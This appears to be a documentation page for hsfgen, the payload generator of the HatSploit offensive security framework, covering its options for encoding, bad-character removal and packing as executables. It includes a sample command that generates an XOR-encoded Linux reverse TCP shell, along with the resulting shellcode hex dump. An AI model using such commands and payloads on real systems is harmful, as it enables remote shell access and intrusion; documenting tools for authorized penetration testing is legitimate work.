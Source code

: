```yaml
---
layout: default
title: Using hsfgen
parent: Getting started
nav_order: 9
---
```


The HatSploit Framework provides a native command-line payload generator named `hsfgen`. This tool is included by default with all other HatSploit utilities, offering advanced features for payload generation and encoding.

## Command-line options overview

The `hsfgen` utility includes a variety of command-line options that allow you to specify and customize payload generation. The following is a comprehensive overview of the available options:

```
usage: hsfgen [-h] [-p PAYLOAD] [-e ENCODER] [--platform PLATFORM]
              [--arch ARCH] [-f FORMAT] [--formats] [--payloads] [--encoders]
              [--options option1=value1,option2=value2,...] [-i ITERATIONS]
              [-b BADCHARS] [--pack] [--implant] [-a] [-o OUTPUT]

Native HatSploit Framework advanced payload generator.

options:
  -h, --help            Show this help message and exit
  -p PAYLOAD, --payload PAYLOAD
                        HatSploit payload.
  -e ENCODER, --encoder ENCODER
                        HatSploit encoder.
  --platform PLATFORM   Specify the target platform for the payload.
  --arch ARCH           Define the payload architecture.
  -f FORMAT, --format FORMAT
                        Generate the payload in a custom format.
  --formats             List all supported formats.
  --payloads            List all available payloads.
  --encoders            List all available encoders.
  --options option1=value1,option2=value2,...
                        Add options for the encoder or payload.
  -i ITERATIONS, --iterations ITERATIONS
                        Specify the number of encoding iterations.
  -b BADCHARS, --badchars BADCHARS
                        Exclude specific bad characters (e.g. \x00).
  --pack                Package the payload as an executable format.
  --implant             Output only the implant rather than the entire payload.
  -a, --assembly        Display the assembly code for payloads.
  -o OUTPUT, --output OUTPUT
                        Save the generated payload to the specified file.
```

## Payload generation

To generate a payload with `hsfgen`, you must use the `-p` and `-e` options to define the payload and its encoder, respectively. Additionally, you can enhance the payload by applying various options:

* `-i`, `--iterations`: Encode the payload a specified number of times.
* `-b`, `--badchars`: Exclude bad characters during payload generation.
* `--options`: Set specific options within the payload or encoder.
* `--pack`: Package the payload into an executable file format.
* `--implant`: Generate only the implant section of the payload, excluding additional components.
* `-f`, `--format`: Choose a custom executable format for the payload.
* `-o`, `--output`: Save the resulting payload to a specified output file.
* `-c`, `--custom`: Define a custom directory containing HatSploit payloads.

## Listing available formats

The following options allow you to explore the available formats, payloads, and encoders:

* `--formats`: Lists all available executable formats (can be combined with the `--platform` option).
* `--payloads`: Displays a list of all available payloads (can be filtered using the `--platform` and `--arch` options).
* `--encoders`: Lists all available encoders (can be filtered using the `--platform` and `--arch` options).

## Sample usage

To generate a basic `linux/x64/shell_reverse_tcp` payload and encode it with `x64/xor`, you can use the following command:

```shell
hsfgen -p linux/x64/shell_reverse_tcp --options rhost=127.0.0.1,rport=8888 -e x64/xor
```

The output will be similar to:

```entysec
[*] Attempting to generate linux/x64/shell_reverse_tcp...
[i] Payload will be encoded with x64/xor
[*] Writing raw payload (112 bytes)...
00000000  48 31 c9 48 81 e9 b6 ff  ff ff 48 8d 05 ef ff ff |H1.H......H.....|
00000010  ff 48 bb 68 61 74 73 70  6c 36 34 48 31 58 27 48 |.H.hatspl64H1X'H|
00000020  2d f8 ff ff ff e2 f4 02  48 2c ea 1a 6e 69 5e 69 |-.......H,..ni^i|
00000030  3f 7b 76 38 fb 7e 8d 6a  61 56 cb b0 c4 34 5b 39 |?{v8.~.jaV...4[9|
00000040  29 fd 95 1a 7c 6c 5e 42  39 7b 76 1a 6f 68 7c 97 |)...|l^B9{v.oh|.|
00000050  af 1e 52 28 63 33 41 9e  0b 4f 2b e9 24 8d 1b 0a |..R(c3A..O+.$...|
00000060  08 1a 5c 03 04 36 67 20  e8 93 21 27 24 bf d2 67 |.....6g ..!'$..g|
00000070  64                                               |d               |
```

To save the generated payload to a file, you can include the `-o` option in the command.

Additionally, if you want to package the payload into an `ELF` executable format for later execution, you can use the `--pack` option or specify `-f elf` to select the `ELF` format explicitly.
